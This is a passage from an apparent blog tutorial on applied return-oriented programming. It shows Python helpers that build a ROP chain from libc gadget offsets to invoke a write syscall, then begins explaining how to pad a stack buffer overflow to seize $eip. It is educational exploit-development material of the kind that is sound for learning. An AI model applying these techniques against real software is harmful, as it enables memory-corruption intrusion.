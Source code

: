 ```python
  return libc_addr(0x000b5377) + struct.pack('<I', value)

def syscall():
  # 0x00002c87 : int 0x80
  return libc_addr(0x00002c87)
```

Since we have made all of these handy helper functions, we can how generate our ropchain in a way that just looks like pseudocode:

```python
def generate_rop():
  rop = ''
  rop += set_edx(9)
  rop += set_ebx(1)
  rop += set_ecx(BUFFER_ADDRESS)
  rop += set_eax(4)
  rop += syscall()
  return rop
```


#### Padding the Input

Our script now generates the ropchain itself, but now we have to overflow the buffer to get control of `$eip`. To do this, we need to generate enough padding to overflow the original buffer along with any padding due to the fact that the function will begin with `$esp` on a 16-byte boundary. [In my post about shellcoding](https://j33m.net/2017/12/06/shellcode/), we found the amount of padding by looking at the disassembled preamble of the function to see how much stack space was allocated for the function. In this case, it is a little less straightforward.

![disassembly of the getinput() function](/assets/2017-12-18-applied-return-oriented-programming-rop/getinput_disassembly.png)
